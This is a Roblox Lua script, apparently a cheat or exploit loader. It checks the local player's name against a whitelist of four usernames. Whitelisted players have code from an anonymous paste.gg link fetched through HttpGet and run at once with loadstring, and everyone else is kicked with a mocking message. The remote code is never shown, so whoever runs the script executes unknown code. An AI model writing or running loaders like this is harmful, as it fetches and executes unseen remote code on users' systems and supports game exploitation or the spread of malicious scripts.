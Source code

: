 -- gr1u updated whitelist

local WhitelistedUsernames = {
    ["Dragonblox836"] = true,
    ["widebodymhki"] = true,
    ["torsotapper"] = true,
    ["SoftX_ff"] = true
    
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local username = player.Name
    return WhitelistedUsernames[username] == true
end

if isWhitelisted(Player) then
    loadstring(game:HttpGet("https://paste.gg/p/anonymous/ec746110a98147efaefe0dd955e38264/files/65275454bab040e7a396cb4f19ca31f9/raw"))()
else
    game.Players.LocalPlayer:Kick("BlackListed - Restless.dreams DOESNT fwu😂.")
end
